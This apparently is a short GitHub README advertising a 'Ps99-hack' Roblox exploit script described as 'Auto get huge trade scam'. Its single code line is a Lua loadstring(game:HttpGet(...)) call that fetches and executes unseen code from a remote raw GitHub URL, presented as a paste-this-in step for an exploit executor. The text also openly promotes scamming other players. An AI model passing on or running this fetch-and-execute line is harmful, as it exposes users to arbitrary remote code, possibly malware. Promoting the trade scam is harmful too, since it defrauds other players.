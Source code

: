 # Ps99-hack-
Trying to find the best script well here it is the features are Auto get huge trade scam

as you think of it it's pretty easy to do here's a script workable with (Arceus x tested) I think it works with anything well here l am going to stop yaping

```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/tobi437a/Scripts/main/2a390ef257ed7f9aa5398314.lua'))()```
